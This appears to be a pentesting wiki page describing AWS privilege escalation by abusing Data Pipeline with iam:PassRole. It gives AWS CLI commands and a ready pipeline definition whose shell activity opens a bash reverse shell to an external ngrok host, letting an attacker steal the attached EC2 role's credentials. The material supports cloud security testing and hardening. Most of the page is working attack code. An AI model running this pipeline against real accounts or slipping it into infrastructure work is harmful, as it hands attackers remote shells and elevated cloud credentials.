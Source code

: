 # AWS - Datapipeline Privesc

{{#include ../../../banners/hacktricks-training.md}}

## datapipeline

For more info about datapipeline check:

{{#ref}}
../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md
{{#endref}}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Users with these **permissions can escalate privileges by creating a Data Pipeline** to execute arbitrary commands using the **permissions of the assigned role:**

```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```

After pipeline creation, the attacker updates its definition to dictate specific actions or resource creations:

```json
{
  "objects": [
    {
      "id": "CreateDirectory",
      "type": "ShellCommandActivity",
      "command": "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
      "runsOn": { "ref": "instance" }
    },
    {
      "id": "Default",
      "scheduleType": "ondemand",
      "failureAndRerunMode": "CASCADE",
      "name": "Default",
      "role": "assumable_datapipeline",
      "resourceRole": "assumable_datapipeline"
    },
    {
      "id": "instance",
      "name": "instance",
      "type": "Ec2Resource",
      "actionOnTaskFailure": "terminate",
      "actionOnResourceFailure": "retryAll",
      "maximumRetries": "1",
      "instanceType": "t2.micro",
      "securityGroups": ["default"],
      "role": "assumable_datapipeline",
      "resourceRole": "assumable_ec2_profile_instance"
    }
  ]
}
```

> [!NOTE]
> Note that the **role** in **line 14, 15 and 27** needs to be a role **assumable by datapipeline.amazonaws.com** and the role in **line 28** needs to be a **role assumable by ec2.amazonaws.com with a EC2 profile instance**.
>
> Moreover, the EC2 instance will only have access to the role assumable by the EC2 instance (so you can only steal that one).

```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
    --pipeline-definition file:///pipeline/definition.json
```

The **pipeline definition file, crafted by the attacker, includes directives to execute commands** or create resources via the AWS API, leveraging the Data Pipeline's role permissions to potentially gain additional privileges.

**Potential Impact:** Direct privesc to the ec2 service role specified.

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../banners/hacktricks-training.md}}




